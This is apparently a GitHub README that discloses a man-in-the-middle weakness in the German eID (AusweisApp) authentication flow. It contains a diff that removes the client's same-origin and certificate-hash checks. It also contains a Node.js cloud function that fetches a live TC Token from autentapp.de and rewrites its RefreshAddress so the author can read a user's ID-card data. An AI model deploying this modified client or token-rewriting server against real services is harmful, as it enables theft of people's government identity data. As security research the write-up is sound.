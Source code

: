 # eID Server Mock
Basic SOAP server that mocks the functionality of an actual eID Server.

## How Does This Work?
In the case of Estonian eID, the method of using it on the web is called Web eID. The client requests a challenge nonce from the server and returns the result of the challenge with the certificate after entering the pin for the ID. If the nonce is valid, the server reads the user data from the certificate.

In German eID, there is also a “terminal authentication”, where the smart card checks if the terminal (web service and eID-Server of the service)  reading the card has the necessary certificate issued by the government.

The problem is, that validating that the subject of the certificate and the web service triggering the eID process have the same URL is the eID-Client app’s (e.g. AusweisApp) responsibility, as only the eID-Client can know what triggered it, so the smart card and the eID-Server has no way of knowing if such check was made by the Client. Certificate checks can be disabled by deleting the lines shown in the following diff.

```diff
❯ git --no-pager diff
diff --git a/src/workflows/base/states/StateCertificateDescriptionCheck.cpp b/src/workflows/base/states/StateCertificateDescriptionCheck.cpp
index 7ac32e05..2f97436e 100644
--- a/src/workflows/base/states/StateCertificateDescriptionCheck.cpp
+++ b/src/workflows/base/states/StateCertificateDescriptionCheck.cpp
@@ -70,27 +70,7 @@ void StateCertificateDescriptionCheck::run()
        qDebug() << "Subject URL from AT CVC (eService certificate) description:" << subjectUrlString;
        qDebug() << "TCToken URL:" << tcTockenUrl;
 
-       if (UrlUtil::isMatchingSameOriginPolicy(QUrl(subjectUrlString), tcTockenUrl))
-       {
-               qDebug() << "SOP-Check succeeded.";
-       }
-       else
-       {
-               qDebug() << "SOP-Check failed.";
-
-               auto sameOriginPolicyError = QStringLiteral("The subject URL in the certificate description and the TCToken URL do not satisfy the same origin policy.");
-               if (Env::getSingleton<AppSettings>()->getGeneralSettings().isDeveloperMode())
-               {
-                       qCCritical(developermode) << sameOriginPolicyError;
-               }
-               else
-               {
-                       qCritical() << sameOriginPolicyError;
-                       updateStatus(GlobalStatus::Code::Workflow_Certificate_Sop_Error);
-                       Q_EMIT fireAbort(FailureCode::Reason::Certificate_Check_Failed_Same_Origin_Policy_Violation);
-                       return;
-               }
-       }
+       qDebug() << "SOP-Check succeeded.";
 
        Q_EMIT fireContinue();
 }
diff --git a/src/workflows/base/states/StateCheckCertificates.cpp b/src/workflows/base/states/StateCheckCertificates.cpp
index 316048d0..4072765c 100644
--- a/src/workflows/base/states/StateCheckCertificates.cpp
+++ b/src/workflows/base/states/StateCheckCertificates.cpp
@@ -21,30 +21,5 @@ StateCheckCertificates::StateCheckCertificates(const QSharedPointer<WorkflowCont
 
 void StateCheckCertificates::run()
 {
-       const auto& commCertificates = getContext()->getDidAuthenticateEac1()->getCertificateDescription()->getCommCertificates();
-       const auto& hashAlgorithm = getContext()->getDvCvc()->getBody().getHashAlgorithm();
-
-       // check the certificates we've encountered so far
-       const auto& certList = getContext()->getCertificateList();
-       for (const auto& certificate : certList)
-       {
-               if (!TlsChecker::checkCertificate(certificate, hashAlgorithm, commCertificates))
-               {
-                       auto certificateDescError = QStringLiteral("Hash of certificate not in certificate description");
-                       if (Env::getSingleton<AppSettings>()->getGeneralSettings().isDeveloperMode())
-                       {
-                               qCCritical(developermode) << certificateDescError;
-                       }
-                       else
-                       {
-                               qCritical() << certificateDescError;
-                               const auto& issuerName = TlsChecker::getCertificateIssuerName(certificate);
-                               updateStatus({GlobalStatus::Code::Workflow_TrustedChannel_Hash_Not_In_Description, {GlobalStatus::ExternalInformation::CERTIFICATE_ISSUER_NAME, issuerName}
-                                               });
-                               Q_EMIT fireAbort(FailureCode::Reason::Certificate_Check_Failed_Hash_Missing_In_Description);
-                               return;
-                       }
-               }
-       }
        Q_EMIT fireContinue();
 }
```

Way to trigger the eID-Client is clicking a link such as  “eid://127.0.0.1:24727/eID-Client?tcTokenURL=https://www.autentapp.de/AusweisAuskunft/WebServiceRequesterServlet” which opens the eID-Client and the Client will request the tcToken from the specified tcTokenURL path parameter. TC Token is an XML that looks like this:

```xml
<TCTokenType>
	<ServerAddress>https://prodpaos.governikus-eid.de:443/ecardpaos/paosreceiver</ServerAddress>
	<SessionIdentifier>7506f0ad-2a3c-4829-bf78-64d712394fe2</SessionIdentifier>
	<RefreshAddress>https://www.autentapp.de/AusweisAuskunft/WebServiceReceiverServlet?refID=6613a9c8-a086-4924-8cce-24ca8a7cce9a</RefreshAddress>
	<Binding>urn:liberty:paos:2006-08</Binding>
	<PathSecurity-Protocol>urn:ietf:rfc:4279</PathSecurity-Protocol>
	<PathSecurity-Parameter>
		<PSK>773B9614E21A6158CC6E9DBCA31A2CA9E21261ACB7BFFBE3D93284CD38337200445BD0240B587E6B7233AFBC975F2C2EB513E74124DF160EF1EAA7C7E085B411</PSK>
	</PathSecurity-Parameter>
</TCTokenType>
```

It specifies where the eID-Server is (ServerAddress), starts a session (SessionIdentifier), and shows which URL to load after the process is successful (RefreshAddress). The TC Token above belongs to Ausweisapp’s “See my data” functionality, so the RefreshAddress is the address, where Ausweisapp will call to get the user’s data that the server has read. Normally this is the URL a user would go to get their authentication token such as a JWT if the authentication is successful, so the following man-in-the-middle wouldn’t work for such APIs. RefreshAddress is only valid for the first request made to it.

Since the modified client doesn’t check if the TC Token’s address is the same as the address on the provided certificate, I can write an HTTP server that requests a token from autentapp, saves the refresh address, and changes it with an invalid address before sending it to the client.

```js
const functions = require('@google-cloud/functions-framework');

functions.http('getToken', async(req, res) => {
  var token = await (await fetch('https://www.autentapp.de/AusweisAuskunft/WebServiceRequesterServlet')).text()
  console.log(token.split("RefreshAddress>")[1].split("</RefreshAddres")[0])
  token = token.replaceAll("https://www.autentapp.de/AusweisAuskunft/WebServiceReceiverServlet", "https://fakeadress.com/")
  res.set('Content-Type', 'text/xml');
  res.send(Buffer.from(token))
  console.log("token sent")
});

```

On my website, I can create a link with the eid:// protocol, and for the TC Token URL I can give that HTTP server’s URL, such as  eid://127.0.0.1:24727/eID-Client?tcTokenURL=***https://us-central1-resolute-radar-421713.cloudfunctions.net/function-1***

![Untitled](readme/Untitled.png)

Which triggers eID-Client, the client communicates with eID-Server, the Server goes through the terminal authentication with the smart card using its government-issued certificate, and after the data is transferred the Client goes to an invalid Refresh Address, and I can access the data.

![Untitled](readme/Untitled1.png)

Other service providers that offer users the functionality to see the data inside their ID-Card is probably vulnerable in the same way.

This method renders issuance of a government terminal certificate in case of an "On-Site Card Reading” useless, since a customer can’t check if the service provider is using an eID-Client that checks the certificates subject.

In the case of authenticating as a user on the web, users wouldn’t be vulnerable if they are using approved eID-Clients. But this shifts the responsibility to the user. In the Estonian example, a user shouldn’t use Web-ID on a website they don’t trust. In German example, they shouldn’t download an eID-Client they don’t trust. The difference is not that great, but the trade-off is much more bureaucracy and  higher development / IT-infrastructure costs for the government and service providers.